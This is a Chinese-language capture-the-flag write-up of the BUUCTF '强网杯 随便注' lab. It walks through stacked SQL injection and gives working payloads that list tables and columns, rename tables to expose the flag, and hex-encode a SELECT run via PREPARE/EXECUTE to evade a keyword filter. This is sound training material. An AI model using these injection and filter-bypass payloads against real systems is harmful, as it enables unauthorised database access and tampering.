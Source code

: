 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/BUU_强网杯随便注.md","permalink":"/安全/靶场/BUU_强网杯随便注/","title":"BUU_强网杯随便注"}
---
```



# 整体思路

这题的关键点在于可以使用堆叠注入，但是注意有屏蔽关键词
![Pasted image 20240803101900.png](/img/user/picture/Pasted%20image%2020240803101900.png)



# 注入流程


先看一下表名
```sql
0'; show tables;
```
![Pasted image 20240803102008.png](/img/user/picture/Pasted%20image%2020240803102008.png)

再看一下列名
```sql
0'; show columns from `1919810931114514`; #
```


> [!NOTE] 注意
> 表名为数字时，要用反引号包起来查询。

![Pasted image 20240803102241.png](/img/user/picture/Pasted%20image%2020240803102241.png)

可以看到我们要找的数据就在`1919810931114514`表中



## 思路一

在输入框输入id的时候会在words表中进行查询，所以第一个思路就是将`1919810931114514`表重命名为words,并且把words表给改掉


```sql
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#

```

之后再查询1 flag就直接出来了
![Pasted image 20240803102620.png](/img/user/picture/Pasted%20image%2020240803102620.png)



## 思路二

因为select被过滤了，所以先将select * from ` `1919810931114514` `进行16进制编码

再通过构造payload得

`;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#`

进而得到flag

- prepare…from…是预处理语句，会进行编码转换。
- execute用来执行由SQLPrepare创建的SQL语句。
- SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。


